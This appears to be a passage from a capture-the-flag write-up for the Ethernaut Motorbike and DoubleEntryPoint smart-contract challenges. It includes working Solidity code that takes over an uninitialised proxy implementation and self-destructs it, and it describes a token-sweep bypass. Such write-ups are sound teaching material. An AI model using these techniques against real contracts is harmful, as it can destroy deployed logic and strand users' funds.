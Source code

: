 In this challenge, we want to change the implementation of the `Engine` logic contract to a  malicious one (that contains the `SELFDESTRUCT` operation), using `upgradeToAndCall()` which requires us to be the `upgrader`. However, the only way to set `upgrader` is via `initialize()`. 

Since `Engine` implements `Initializable`, the function `initialize()` can only be called once. Thankfully, we notice that the call to `initialize()` in the Motorbike constructor is via a `delegatecall`, which means that it only modifies the storage state of proxy `Motorbike`, not the logic contract `Engine` storage. In other words, we can still call `initialize()` in the context of `Engine`'s state. In fact, `initialized` is still set to `false` and `upgrader` is set to `0x00` in the `Engine` state. This is the crux of the challenge: the proxy uses the implementation purely for logic and modifies only the storage within the proxy contract, since the proxy interacts with the logic implementation only via `delegatecall`. The takeaway here is to **remember to initialise implementation contracts**!

**Steps:**

1. Get contract address of `Engine` , the logic contract that we want to selfdestruct via `delegatecall`
    
    `cast storage <challenge_addr> <IMPLEMENTATION_SLOT>` 
    
2. deploy `AttackMotorbike` contract, with input of Engine’s address. The attack consists of:
    1. call Engine’s `initialize()`
    2. call `upgradeToAndCall` using calldata code of `selfdestruct`

```solidity
function attack() public {
    (bool success, ) = engineAddress.call(abi.encodeWithSignature("initialize()"));
    require(success, "engine could not be initialized");

    Destroy d = new Destroy();        
    bytes memory data = abi.encodeWithSignature("selfDestruct()");
    (bool success2, ) = engineAddress.call(abi.encodeWithSignature("upgradeToAndCall(address,bytes)",address(d), data));
    require(success2, "upgrade to and call failed");
}
```

Note that the `Destroy` contract just needs the `selfdestruct` function.

```solidity
contract Destroy {
    function selfDestruct() external {
        selfdestruct(payable(tx.origin));
    }
}
```

Finally, we can verify on Etherscan that the engine contract has been self-destructed.

****
# DoubleEntryPoint

The vulnerability for this challenge is that `CryptoVault`'s function `sweepToken` is supposed to prevent the token being swept from being the underlying `DET` token: `require(token != underlying, "Can't transfer underlying token");` . However, this can be bypassed by simply calling `sweepToken` on the `LegacyToken` contract, whose `delegate` variable is indeed the underlying token `DET` so its `delegate.delegateTransfer(to,value,msg.sender)` call would sweep the entire Vault’s balance of underlying tokens `DET` to the `sweptTokensRecipient` .
